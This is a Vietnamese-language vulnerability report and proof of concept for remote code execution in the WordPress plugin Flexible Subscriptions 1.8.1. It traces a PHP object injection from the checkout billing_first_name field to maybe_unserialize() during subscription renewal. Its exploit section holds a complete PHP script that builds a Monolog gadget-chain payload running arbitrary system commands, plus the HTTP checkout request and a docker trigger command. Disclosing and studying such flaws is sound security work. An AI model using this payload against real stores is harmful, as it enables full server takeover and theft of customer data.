## Vulnerability Summary

## Description Bug
Plugin này nó có chức năng xử lý dữ liệu đơn hàng do người dùng kiểm soát thông qua hàm `maybe_unserialize()` của PHP khi sao chép dữ liệu đăng ký `(subscription)` sang đơn hàng gia hạn. Kẻ tấn công có thể chèn đối tượng PHP được tuần tự hóa vào trường thông tin thanh toán và lúc này payload được lưu trữ được trong dữ liệu đăng ký. Khi hệ thống xử lý việc gia hạn tự động, lệnh gọi hàm `maybe_unserialize()` sẽ kích hoạt chuỗi payload được tạo từ các lớp chuỗi gadget chain nằm trong chính plugin cụ thể là `Monolog`
## Root Cause && Sink
Đầu tiên Root Cause ở File: `flexible-subscriptions/vendor_prefixed/wpdesk/order-data-transfer/src/OrderDataTransfer.php`

Ở function `copy_data` đây là nguyên nhân gốc bởi vì nó sử dụng hàm `maybe_unserialize()` để thực hiện cho các giá trị được sao chép từ dữ liệu đơn hàng hoặc gói đăng ký, và giá trị này có thể chứa được những trường thông tin thanh toán do kẻ tấn công kiểm soát. <br>
Và để biết được dữ liệu đầu vào tại sao do attacker kiểm soát trong quá trình thanh toán đơn hàng, `Flexible Subscriptions` thực hiện tạo một gói đăng ký từ đơn hàng `WooCommerce` <br>
File: `flexible-subscriptions/src/HookProvider/Checkout/SubscriptionCheckout.php`
```php
public function hooks(): void {
    add_action( 'woocommerce_checkout_order_processed', $this );
    add_action( 'woocommerce_store_api_checkout_order_processed', $this );
}

public function __invoke( $order_id ): void {
    ...
    foreach ( $this->candidates as $group => $candidate ) {
        $subscription = $this->creator->build_subscription( $order, $candidate );
        ...
    }
}
```
Điều này có nghĩa là khi action đơn hàng được đặt hàm `__invoke()` sẽ tự động bắt đầu sau khi thanh toán và đi theo luồng `build_subcription` nó được tạo như thế nào nó được tạo ở đâu thì quá trình debug tôi thấy nó được nằm ở. <br>
File: `WPDesk\FlexibleSubscriptions\Subscription\SubscriptionCreator::build_subscription`
```php
public function build_subscription( \WC_Order $order, SubscriptionCandidateInterface $candidate ): Subscription {
    $subscription = new Subscription();
    ...
    $this->set_addresses( $subscription, $order );
    ...
    $this->order_data_copier->copy_subscription_meta( $order, $subscription );
    ...
}
```
Thông tin người dùng được sao chép từ đơn hàng sang gói đăng ký ở function `set_addresses`

Quan trọng thay ở function này quan trọng bởi vì các trường như `billing_first_name` do người dùng kiểm soát trong quá trình thanh toán. Nếu một chuỗi đối tượng được tuần tự hóa được gửi vào trường này thì sẽ lưu lại cùng gói đăng ký luôn.
Và điểm nguy hiểm bắt đầu từ Renewal được tạo ra <br>
File: `flexible-subscriptions/src/Subscription/Renewal/RenewalFactory.php`
```php
public function create_for( Subscription $subscription ): Renewal {
    $order = wc_create_order(
        [
            'customer_id'   => $subscription->get_user_id(),
            'customer_note' => $subscription->get_customer_note(),
            'created_via'   => 'subscription',
            'parent'        => $subscription->get_id(),
        ]
    );
    assert( $order instanceof \WC_Order );
    $this->order_data_copier->copy_renewal_data( $subscription, $order );
    ...
}
```
Như vậy lúc này đơn hàng gia hạn được tạo ra từ gói đăng ký và dữ liệu của gói đăng ký được sao chép sang đơn hàng mới và bản sao Renewal dẫn đến sinks luồng `copy_renewal_data` được gọi tới <br>
File: `flexible-subscriptions/src/Subscription/OrderDataCopier.php`

Phương thức này gọi phương thức tổng quát `OrderDataTransfer::coppy()` thu thập dữ liệu đơn hàng, dữ liệu hoạt động dữ liệu địa chỉ sau đó nó thực hiện chuyển chúng đến `copy_data()` và kết quả function `copy_data()` bên trong cùng tệp tin có lỗ hổng này

Và `get_address_data()` bao gồm các trường mà kẻ tấn công có thể tác động đến, chẳng hạn như:
```php
'_billing_first_name' => $source->get_billing_first_name('edit'),
'_billing_last_name'  => $source->get_billing_last_name('edit'),
'_billing_email'      => $source->get_billing_email('edit'),
'_shipping_first_name'=> $source->get_shipping_first_name('edit'),
```
Tại thời điểm này, payload đã được Serialize chuyển đổi thành chuỗi được lưu trữ trong môi trường thông tin thanh toán sẽ được truyền vào hàm `maybe_unserialize()`.
## Xây dựng Gadget Chain -> RCE
Tại sao lỗi này có thể nâng lên RCE bởi vì điểm nhận dữ liệu sinks nêu trên dẫn đến lỗ hổng PHP Objection Injection. Lỗi này có thể RCE bởi vì có sẵn một chuỗi gadget chain có thể khai thác được trong thư viện `Monolog` đi kèm với plugin
### Điểm vào đầu tiên
File: `flexible-subscriptions/vendor_prefixed/monolog/monolog/src/Monolog/Handler/Handler.php`

Ở đoạn code này khi một đối tượng được giải tuần tự hóa là một đối tượng xử lý `handler` Monolog được tạo ra PHP cuối cùng sẽ thực hiện gọi phương thức `__destruct()` và gọi đối tượng `close()` và debug theo luồng tìm được hướng xử lý của `close()` xử lý lồng nhau khi đối tượng bị đóng <br>
File: `flexible-subscriptions/vendor_prefixed/monolog/monolog/src/Monolog/Handler/FingersCrossedHandler.php`

Và

Điều này cho phép trình xử lý lồng nhau đã được tạo ra có thể được truy cập trong quá trình hủy đối tượng và trình xử lý tiến trình thực thi một lệnh hệ thống <br>
File: `flexible-subscriptions/vendor_prefixed/monolog/monolog/src/Monolog/Handler/ProcessHandler.php`

Và đây là thành phần thực thi cốt lõi nếu attacker kiểm soát được `$this->command`, chuỗi hành động sẽ kết thúc tại `proc_open()` dẫn đến thực thi lệnh.

## Work Flow
```txt
[1] Attacker gửi serialized object vào billing_first_name
        │
        ▼
[2] WooCommerce tạo order mới
        │
        ▼
[3] Hook checkout completion của Flexible Subscriptions kích hoạt
        │
        ▼
[4] SubscriptionCheckout gọi SubscriptionCreator::build_subscription()
        │
        ▼
[5] SubscriptionCreator::set_addresses() sao chép dữ liệu độc hại
        │
        ▼
[6] RenewalFactory::create_for() gọi OrderDataCopier::copy_renewal_data()
        │
        ▼
[7] OrderDataCopier gọi OrderDataTransfer::copy()
        │
        ▼
[8] OrderDataTransfer::copy_data() gọi maybe_unserialize($value)
        │
        ▼
[9] PHP instantiate object graph do attacker kiểm soát
        │
        ▼
[10] Chuỗi gadget Monolog:
     Handler::__destruct() → FingersCrossedHandler::close()
     → ProcessHandler::startProcess() → proc_open(...)
        │
        ▼
[11] REMOTE CODE EXECUTION (RCE) thành công
```
Sau khi có workflow rõ rồi thời đại Al mà promt bảo nó viết POC và thực hiện
## How to reproduce
### 1. Setup Enviroment
1. Đầu tiên, hãy cài đặt WordPress và WooCommerce, cùng với phiên bản mới nhất của plugin cần kiểm thử: `Flexible Subscriptions 1.8.1`.
2. Phiên bản PHP: `PHP/8.2.25`
3. Máy chủ: `Apache/2.4.62 (Debian)`
4. Chạy trên `localhost:80` bằng Docker.
### 2. POC
1: Tạo payload đã được tuần tự hóa `gen-payload.php` run với lệnh:
```php
php gen-payload.php
```
<details>
  <summary style="color: red;">Click View Script Gen Payload</summary> <br>

~~~php
<?php
/**
 * Usage:
 *   php gen-payload.php "id > /var/www/html/pwn.txt"
 */

$command = $argv[1] ?? 'id > /tmp/pwn_pub.txt';

// ─── Namespace prefixes ───
$nsH = 'WPDesk\\FlexibleSubscriptions\\Vendor\\Monolog\\Handler';
$clsSyslog = $nsH . '\\SyslogUdpHandler';
$clsBuffer = $nsH . '\\BufferHandler';

// ─── Serialize helpers ───
function ss(string $s): string { return 's:' . strlen($s) . ':"' . $s . '";'; }
function si(int $i): string    { return 'i:' . $i . ';'; }
function sb(bool $b): string   { return 'b:' . ($b ? '1' : '0') . ';'; }
function sn(): string          { return 'N;'; }
function sr(int $r): string    { return 'r:' . $r . ';'; }
function sa(array $a): string {
    $o = 'a:' . count($a) . ':{';
    foreach ($a as $k => $v) { $o .= (is_int($k) ? si($k) : ss($k)) . sv($v); }
    return $o . '}';
}
function so(string $cls, array $props): string {
    $body = '';
    foreach ($props as $k => $v) { $body .= ss($k) . sv($v); }
    return 'O:' . strlen($cls) . ':"' . $cls . '":' . count($props) . ':{' . $body . '}';
}
function sv($v): string {
    return match (true) {
        is_string($v) => ss($v),
        is_int($v)    => si($v),
        is_bool($v)   => sb($v),
        $v === null   => sn(),
        default       => sa($v),
    };
}

// ─── Build BufferHandler with reference trick ───
// BufferHandler::flush() processes records via handler->handleBatch()
// processors array: ['current', 'system'] → Handler::pushProcessor
// When a record is processed, the processor callbacks are called:
//   current($record) → returns $record
//   system($record)  → system($record['message']) ← RCE !
// The 'message' field in the buffer record is our command

// Build the buffer record: [0 => command, 'level' => null]
// current() returns the first element (our command string)
// system() executes it → RCE
$buffer = [[
    0       => $command,
    'level' => null,
]];

$processors = ['current', 'system'];

// ─── Build BufferHandler serialization ───
// handler = self-reference (r:2)
// r:2 means "reference to the 2nd object in this serialized data"
// Object #1 = SyslogUdpHandler, Object #2 = BufferHandler → r:2 = self

$bufClassName = $clsBuffer;
$bufBody  = ss('handler') . sr(2);
$bufBody .= ss('bufferSize') . si(-1);
$bufBody .= ss('buffer') . sa($buffer);
$bufBody .= ss('level') . sn();
$bufBody .= ss('initialized') . sb(true);
$bufBody .= ss('bufferLimit') . si(-1);
$bufBody .= ss('processors') . sa($processors);

$bufSerialized = 'O:' . strlen($bufClassName) . ':"' . $bufClassName . '":7:{' . $bufBody . '}';

// ─── Build SyslogUdpHandler wrapping BufferHandler as socket ───
$sysClassName = $clsSyslog;
$payload = 'O:' . strlen($sysClassName) . ':"' . $sysClassName . '":1:{' . ss('socket') . $bufSerialized . '}';

echo "Command: {$command}\n";
echo "Length : " . strlen($payload) . " bytes\n";
echo "NUL    : " . (str_contains($payload, "\x00") ? "YES" : "NO") . "\n\n";
echo $payload . "\n";

~~~
</details>

2. Truy cập vào chức năng thanh toán, nhập các thông tin bắt buộc và bắt gói tin HTTP được tạo ra bằng Burp Suite:
```http
POST /wp-json/wc/store/v1/checkout?_locale=site HTTP/1.1
Host: localhost
Content-Length: 1094
Nonce: 1540bdf301
X-WP-Nonce: a295a4e12d
Content-Type: application/x-www-form-urlencoded
Origin: http://localhost
Referer: http://localhost/checkout/

"additional_fields":"","billing_address":"billing_first_name":"<PAYLOAD>",[.....]
```
3. Chèn payload đã tạo ở Bước 1 vào trường `billing_first_name` và gửi yêu cầu.

4. Kích hoạt RCE. Hệ thống có chức năng mô phỏng quy trình tự động (ví dụ: sau khoảng thời gian 1 ngày, 1 tuần hoặc 1 tháng). Khi hệ thống tự động thực hiện giới hạn bao gồm việc tạo đơn hàng gia hạn và xử lý thanh toán hàm `maybe_unserialize()` sẽ thực thi tải trọng. Và để POC ngay thì sử dụng lệnh docker tôi sẽ add action tự động thanh toán kèm theo UID vừa đặt hàng chứa tải trọng.
```docker
docker exec flexible-subscriptions-wordpress-1 php -r '
require_once "/var/www/html/wp-load.php";
do_action("fsub/subscription/payment_request/process", 158);
'
```
5. Kết quả cho thấy đơn hàng gói đăng ký gia hạn thanh toán chuyển đổi trạng thái và kích hoạt payload RCE thành công

6. Truy cập kiểm chứng
